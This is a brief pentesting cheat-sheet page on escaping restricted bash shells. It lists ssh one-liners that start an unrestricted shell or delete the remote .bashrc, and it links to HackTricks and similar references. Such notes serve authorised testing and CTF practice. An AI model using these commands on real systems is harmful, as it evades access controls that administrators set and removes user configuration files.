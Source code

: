 # bypass bash restrictions

## ssh (most common)

```
ssh user@IP -t "bash --noprofile"
ssh -t user@IP bash --norc --noprofile
ssh -t user@IP /bin/sh
ssh -t user@IP "bash --norc --noprofile -c '/bin/rm .bashrc'"

```

## References

{% embed url="https://book.hacktricks.xyz/linux-unix/useful-linux-commands/bypass-bash-restrictions" %}

{% embed url="https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques" %}

{% embed url="https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape" %}
